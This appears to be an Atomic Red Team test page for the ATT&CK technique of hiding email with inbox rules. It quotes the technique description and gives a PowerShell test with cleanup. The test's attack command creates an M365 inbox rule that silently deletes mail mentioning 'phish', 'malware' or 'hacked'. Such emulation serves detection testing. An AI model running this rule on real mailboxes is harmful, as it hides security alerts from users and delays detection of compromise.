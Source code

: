 # T1564.008 - Hide Artifacts: Email Hiding Rules
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1564/008)
<blockquote>

Adversaries may use email rules to hide inbound emails in a compromised user's mailbox. Many email clients allow users to create inbox rules for various email functions, including moving emails to other folders, marking emails as read, or deleting emails. Rules may be created or modified within email clients or through external features such as the <code>New-InboxRule</code> or <code>Set-InboxRule</code> [PowerShell](https://attack.mitre.org/techniques/T1059/001) cmdlets on Windows systems.(Citation: Microsoft Inbox Rules)(Citation: MacOS Email Rules)(Citation: Microsoft New-InboxRule)(Citation: Microsoft Set-InboxRule)

Adversaries may utilize email rules within a compromised user's mailbox to delete and/or move emails to less noticeable folders. Adversaries may do this to hide security alerts, C2 communication, or responses to [Internal Spearphishing](https://attack.mitre.org/techniques/T1534) emails sent from the compromised account.

Any user or administrator within the organization (or adversary with valid credentials) may be able to create rules to automatically move or delete emails. These rules can be abused to impair/delay detection had the email content been immediately seen by a user or defender. Malicious rules commonly filter out emails based on key words (such as <code>malware</code>, <code>suspicious</code>, <code>phish</code>, and <code>hack</code>) found in message bodies and subject lines. (Citation: Microsoft Cloud App Security)

In some environments, administrators may be able to enable email rules that operate organization-wide rather than on individual inboxes. For example, Microsoft Exchange supports transport rules that evaluate all mail an organization receives against user-specified conditions, then performs a user-specified action on mail that adheres to those conditions.(Citation: Microsoft Mail Flow Rules 2023) Adversaries that abuse such features may be able to automatically modify or delete all emails related to specific topics (such as internal security incident notifications).

</blockquote>

## Atomic Tests

- [Atomic Test #1 - New-Inbox Rule to Hide E-mail in M365](#atomic-test-1---new-inbox-rule-to-hide-e-mail-in-m365)


<br/>

## Atomic Test #1 - New-Inbox Rule to Hide E-mail in M365
This test simulates a user adding an inbox rule in M365 to delete emails with specific keywords in email subject or body.
 Reference: https://www.mandiant.com/sites/default/files/2021-09/rpt-fin4.pdf

**Supported Platforms:** Office-365


**auto_generated_guid:** 30f7d3d1-78e2-4bf0-9efa-a175b5fce2a9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| auth_username | M365 Username | string | john@contoso.com|
| auth_password | M365 Password | string | p4sswd|
| mail_rulename | Name of the inbox rule. | string | default|
| target_mailbox | Mailbox you are creating the rule in | string | jane@contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module ExchangeOnlineManagement
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
Connect-ExchangeOnline -Credential $credential -ErrorAction:SilentlyContinue
New-InboxRule -Mailbox #{target_mailbox} -Name #{mail_rulename} -SubjectOrBodyContainsWords ("phish","malware","hacked") -Confirm:$false -DeleteMessage:$true
```

#### Cleanup Commands:
```powershell
Import-Module ExchangeOnlineManagement
$password = ConvertTo-SecureString -String "#{auth_password}" -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{auth_username}", $password
Connect-ExchangeOnline -Credential $credential
Remove-InboxRule -Mailbox #{target_mailbox} -Identity #{mail_rulename} -Confirm:$false
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement module must be installed.
##### Check Prereq Commands:
```powershell
try {if (Get-InstalledModule -Name ExchangeOnlineManagement -ErrorAction SilentlyContinue) {exit 0} else {exit 1}} catch {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement -Force
```




<br/>
